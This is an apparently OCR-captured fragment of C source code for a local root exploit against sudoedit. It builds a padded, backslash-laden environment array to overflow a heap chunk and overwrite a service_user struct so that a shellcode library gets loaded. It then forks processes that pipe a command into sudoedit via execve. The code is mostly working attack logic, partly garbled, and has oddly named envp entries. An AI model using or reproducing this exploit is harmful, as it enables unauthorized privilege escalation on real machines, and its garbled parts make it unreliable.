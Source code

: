 ```c

    // This environment variable will be copied onto the heap after the overflowing chunk.
    // Use it to bridge the gap between the overflow and the target service_user struct.
    char overflow[0x500] = {0};
    memset(overflow, 'X', 0x4cf);
    strcat(overflow, "\\");

    // Overwrite the 'files' service_user struct's name with the path of our shellcode library.
    // The backslashes write nulls which are needed to dodge a couple of crashes.
    char* envp[] = {
        overflow,
        "\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",
        "XXXXXXX\\",
        "\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",
        "\\", "\\", "\\", "\\", "\\", "\\", "\\",
        "x/x\\",
        "Z",
        messages,
        telephone,
        measurement,
        NULL};

	int des_p[2];
	if(pipe(des_p) == -1){

		puts("Error .. pipe \n");
		return -1;
	}
	
	if(fork() == 0)   
        {
            close(STDOUT_FILENO);
            dup(des_p[1]);  
            close(des_p[0]); 
	    write(des_p[1],command, strlen(command));
            close(des_p[1]);
	    exit(1);
        }

	if(fork()==0){
		close(STDIN_FILENO); 
		dup(des_p[0]);  
		close(des_p[1]); 
		close(des_p[0]);
		
		execve("/usr/bin/sudoedit", sudoedit_argv, envp);
		perror("execvp of stdread failed");
		exit(1);
	}
	close(des_p[0]);
	close(des_p[1]);
	wait(0);
	wait(0);
}
```
